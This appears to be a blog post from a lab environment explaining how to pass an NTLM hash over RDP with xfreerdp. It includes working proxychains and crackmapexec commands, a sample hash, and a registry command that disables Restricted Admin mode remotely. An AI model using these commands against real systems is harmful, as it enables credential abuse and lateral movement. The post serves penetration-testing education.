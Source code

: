 ```yaml
---
layout: post
title:  "Passing the hash through RDP"
date:   2023-08-17 00:00:00 -0400
desc: >
    Where I explain how you can use xfreerdp to pass the hash
---
```


# Scenario
You've obtained local access to a machine and you have the hash for another user that has an account on a different machine, but you're not able to crack it. 
Maybe you don't have access via winrm or maybe you need GUI access so that you can bypass UAC. If RDP is running, you may be able to pass the hash with xfreerdp.
Note that this approach requires modifying the Windows registry (typically this means the user needs to be Administrator).

For this example, I'll be using the Kanto domain which is made up of two machines. A regular host named Pallet and a domain controller named DC01. There are two users on this domain as well; Oak who
is a local admin to Pallet and Ash who is the domain admin.

![The Kanto domain](/images/2023-08-17/layout.jpg "The Kanto domain")

For this example I've gained access to Pallet, dumped the hashes, and acquired the hash for ash. 

![The hash for ash](/images/2023-08-17/ashHash.png "Ashes hash")

# Passing the hash with xfreerdp

To access the remote machine with the hash, you can replace the relevant arguments and run the following command. I'm running this command through an http tunnel so I have to prepend it with "proxychains" as well. 

```bash
proxychains xfreerdp /u:ash /v:192.168.150.130 /pth:7659003efbb9d6ac24d4c775cc49ae72
```

Initially the command appears to work, but when you gain access you'll be met with the following screen.

![Blocked](/images/2023-08-17/blocked.png "Blocked")

# Understanding restricted admin mode

This message indicates that my attempt to RDP was blocked due to something called *restricted admin mode*. Restricted admin mode was initially introduced in Windows 8.1/Server 2012 R2 to try to mitigate pass-the-hash attacks by 
preventing RDP users' credentials from being stored in memory when they log in. This prevents users from having their creds read out of memory if the host that they're logging in to is compromised, but to implement this 
RDP uses network logons rather than interactive logons This allows a malicious actor to use an NT Hash or Kerberos ticket to authenticate. Ironically, by blocking one attack vector Microsoft facilitated the problem that 
facilitated another. You can now pass the hash via RDP as long as you can disable restricted admin.

# Disabling restricted admin
To disable restricted admin, you have several options. Plan A is to do it through winrm by modifying the registry with the following command:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

I'll break this command down. 

`reg add` - used to add a new registry key or modify an existing one

`HKLM\System\CurrentControlSet\Control\Lsa` - the path to the registry key that you want to modify. In this case, it's the lsa (local security authority)

`/t REG_DWORD` - the data type of the value that you want to set

`/v` - the name of the value that you want to set or modify. In this case, DisableRestrictedAdmin

`/d` - the data that you want to set for the value. In this case it's hex 0

`/f` - forces the operation to complete without prompting for confirmation

This works great if you have winrm access, but what if the service is disabled or you're blocked by a firewall or...? Then you have to fall back to plan B. If you have SMB access you may be able to set the 
registry value via crackmapexec. You can check SMB access by running something like the command below.

```bash
proxychains crackmapexec smb 192.168.150.130 -u 'ash' -H '7659003efbb9d6ac24d4c775cc49ae72' -d kanto.local
```

![CME SMB](/images/2023-08-17/pwned.png "pwn3d")

The (Pwn3d!) message indicates that I have SMB access, so I can try to run the following command to modify the registry remotely.

```bash
proxychains crackmapexec smb 192.168.150.130 -u 'ash' -H '7659003efbb9d6ac24d4c775cc49ae72' -d kanto.local -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

The -x flag allows you to specify a command to execute. In this case, it worked and I was able to access the target machine via RDP after running it.

![Done](/images/2023-08-17/done.png "Done")

# TDLR;
You can pass the hash through RDP if you're able to modify the registry on the targeted machine.



